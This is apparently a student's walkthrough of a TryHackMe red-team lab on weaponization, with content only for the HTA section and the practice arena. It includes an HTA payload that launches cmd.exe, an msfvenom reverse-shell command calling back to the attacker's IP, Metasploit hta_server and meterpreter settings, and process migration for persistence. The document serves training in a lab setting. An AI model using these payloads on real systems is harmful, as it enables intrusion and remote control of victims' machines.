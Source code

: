 ![image](https://user-images.githubusercontent.com/51442719/180655800-ab7238f2-e777-4ea2-8203-8c2a0ca86566.png)

# [Weaponization](https://tryhackme.com/room/weaponization)
> #### Understand and explore common red teaming weaponization techniques. 
> #### You will learn to build custom payloads using common methods seen in the industry to get initial access.

---

- [x] [Task 1  Introduction](#task-1--introduction)
- [x] [Task 2  Deploy the Windows Machine](#task-2--deploy-the-windows-machine)
- [x] [Task 3  Windows Scripting Host - WSH](#task-3--windows-scripting-host---wsh)
- [x] [Task 4  An HTML Application - HTA](#task-4--an-html-application---hta)
- [x] [Task 5  Visual Basic for Application - VBA](#task-5--visual-basic-for-application---vba)
- [x] [Task 6  PowerShell - PSH](#task-6--powershell---psh)
- [x] [Task 7  Command And Control - (C2 Or C&C)](#task-7--command-and-control---c2-or-cc)
- [x] [Task 8  Delivery Techniques](#task-8--delivery-techniques)
- [x] [Task 9  Practice Arena](#task-9--practice-arena)

---

# [Task 1  Introduction]()

---

# [Task 2  Deploy the Windows Machine]()

---

# [Task 3  Windows Scripting Host - WSH]()

---

# [Task 4  An HTML Application - HTA]()

### An HTML Application (HTA)
- HTA stands for “HTML Application.” It allows you to create a downloadable file that takes all the information regarding how it is displayed and rendered.
- HTML Applications, also known as HTAs, which are dynamic `HTML` pages containing JScript and VBScript. 
- The LOLBINS (Living-of-the-land Binaries) tool `mshta` is used to execute HTA files. 
- It can be executed by itself or automatically from Internet Explorer. 

#### In the following example, we will use an [`ActiveXObject`](https://en.wikipedia.org/wiki/ActiveX) in our payload as proof of concept to execute `cmd.exe`. 
- Consider the following HTML code.
```hta
<html>
<body>
<script>
	var c= 'cmd.exe'
	new ActiveXObject('WScript.Shell').Run(c);
</script>
</body>
</html>
```
- Then serve the `payload.hta` from a web server, this could be done from the attacking machine as follows,
```cmd
python3 -m http.server 8090
```
- On the victim machine, visit the malicious link using Microsoft Edge, `http://10.8.232.37:8090/payload.hta`. Note that the `10.8.232.37` is the AttackBox's IP address.
  > ![image](https://user-images.githubusercontent.com/51442719/180656414-2cc1cad9-0fc5-4cc0-9cc1-087a192999ae.png)
- Once we press `Run`, the `payload.hta` gets executed, and then it will invoke the `cmd.exe`. 
- The following figure shows that we have successfully executed the `cmd.exe`.
  > ![image](https://user-images.githubusercontent.com/51442719/180656440-dda92953-4d5e-4541-8dec-74e52b781866.png)

#### HTA Reverse Connection
- We can create a reverse shell payload as follows,
```cmd
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.232.37 LPORT=443 -f hta-psh -o thm.hta
```
- We use the `msfvenom` from the `Metasploit` framework to generate a malicious payload to connect back to the attacking machine. 
- We used the following payload to connect the `windows/x64/shell_reverse_tcp` to our IP and listening port.
- On the attacking machine, we need to listen to the port `443` using `nc`. 
- Please note this port needs root privileges to open, or you can use different ones.
- Once the victim visits the malicious URL and hits run, we get the connection back.
```cmd
sudo nc -lvp 443
```

### Malicious HTA via Metasploit 
- There is another way to generate and serve malicious HTA files using the Metasploit framework. 
- First, run the Metasploit framework using `msfconsole -q` command. 
- Under the exploit section, there is `exploit/windows/misc/hta_server`, which requires selecting and setting information such as `LHOST`, `LPORT`, `SRVHOST`, `Payload`, and finally, executing `exploit` to run the module.
```cmd
use exploit/windows/misc/hta_server
```
```cmd
set LHOST 10.8.232.37
```
```cmd
set LPORT 443
```
```cmd
set SRVHOST 10.8.232.37
```
```cmd
set payload windows/meterpreter/reverse_tcp

```
```cmd
exploit
```
- On the victim machine, once we visit the malicious HTA file that was provided as a URL by Metasploit, we should receive a reverse connection.
```cmd
meterpreter > sysinfo
```




---

# [Task 5  Visual Basic for Application - VBA]()

---

# [Task 6  PowerShell - PSH]()

---

# [Task 7  Command And Control - (C2 Or C&C)]()

---

# [Task 8  Delivery Techniques]()

---

# [Task 9  Practice Arena]()

- We have prepared a Windows 10 machine that runs a user simulation web app to execute your payloads or visit the malicious HTA links automatically. 
- Deploy the attached machine and wait a couple of minutes until it's up and running. 
- Then, visit the user simulator web application at `http://10.10.132.115:8080/`.
- Make sure to visit the user simulator web application from the AttackBox, or you can access it by connecting to the VPN.
  > ![image](https://user-images.githubusercontent.com/51442719/180656171-3cd54534-77fc-458a-9d7b-f431ca69280d.png)
- The web application allows uploading payloads as VBS, DOC, PS1 files. In addition, if you provide a malicious HTA link, the web application will visit your link.
- **Note for Doc files**: the simulation used in the provided Windows 10 machine will open the malicious Word document and be closed within 90 seconds. 
- In order to get longer prescience, you need to migrate as soon as you receive the connection back. 
- In the Metasploit framework, we can inject our current process into another process on the victim machine using migrate. 
- In our case, we need to `migrate` our current process, which is the MS word document, into another process to make the connection stable even if the MS word document is closed. 
- The easiest way to do this is by using `migrate` post-module as follow,
```cmd
meterpreter > run post/windows/manage/migrate 
```
- In this task, the goal is to generate a reverse shell payload of your choice and send it through the web application. 
- Once the web application runs your payload, you should receive a connect back. 
- Answer the question below and prove your access by finding the flag once you receive a reverse shell.
- For reference, you can use the MSFVenom Cheat Sheet.

### Answer the questions below
- What is the flag? Hint: Check the user desktop folder for the flag!
  > Answer format: [`***{********************************}`]








